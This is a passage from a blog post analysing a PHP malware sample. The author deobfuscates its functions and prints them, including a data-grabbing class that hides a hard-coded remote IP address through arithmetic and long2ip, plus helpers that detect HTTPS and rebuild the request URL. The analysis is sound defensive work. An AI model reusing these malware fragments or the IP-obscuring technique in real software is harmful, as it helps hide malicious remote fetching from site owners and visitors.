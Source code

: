 The last parts of the class were easy to see and decode. They translated to:

```php
static private $ipval = 1585596830;
static function getdata($url, $headerdata){
        $url[2] = count($url) > 4 ? long2ip (grabberclass::$ipval - 642)
: $url[2];
        $data = grabberclass::getcurldata($url, $headerdata);
        if (!$data){
                $data = grabberclass::getfileurldata($url, $headerdata);
        }
        return $data;
}
```
I also named the class "grabberclass", as grabbing web data was it's primary function. The attempt to obscure an ip address in the function was interesting. This gave me a bit of a chance to do maths: longw2ip of (1585596830 - 642). I used an online long2ip site to find the address of 136.12.78.46.

# The next big thing

After looking through the malware again to see what popped out, I noticed a simple function, which was easy to decipher:

 ```php
 static public function _2vjoa(){
   if ((!empty($_SERVER['HTTPS']) && $_SERVER['HTTPS'] !== 'off') || $_SERVER['SERVER_PORT'] == 443) {
      return true;
   }
   return false;
}
```

The simple function checks to see if the server is HTTPS or not. In honour of that well known blogger, I decided to name the function "scottornot". I may have been a bit tired at this point and "troyornot" didn't have the same ring to it. NB. Just to be clear, the naming does not indicate involvement of either of the 2 security researchers in the malware, it's just my sense of humour, Mr Officer, sir.

The next 2 functions indicated that some sort of uri need either fixing or rebuilding:

```php
public static function _b9eit(){
         $_l8rv0m91 = explode("?", $_SERVER["REQUEST_URI"], 2);
         $_l8rv0m91 = $_l8rv0m91[0];
         return sprintf("%s://%s%s", _abtwpw0::_2vjoa() ? "https" : "http", $_SERVER['HTTP_HOST'], $_l8rv0m91);
 }

 public static function _tp54w(){
         $_l8rv0m91 = explode("?", $_SERVER["REQUEST_URI"], 2);
         $_l8rv0m91 = $_l8rv0m91[0];
         $_3lantxxc = substr($_l8rv0m91, 0, strrpos($_l8rv0m91, "/"));
         return sprintf("%s://%s%s", _abtwpw0::_2vjoa() ? "https" : "http", $_SERVER['HTTP_HOST'], $_3lantxxc);
 }
```


[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"
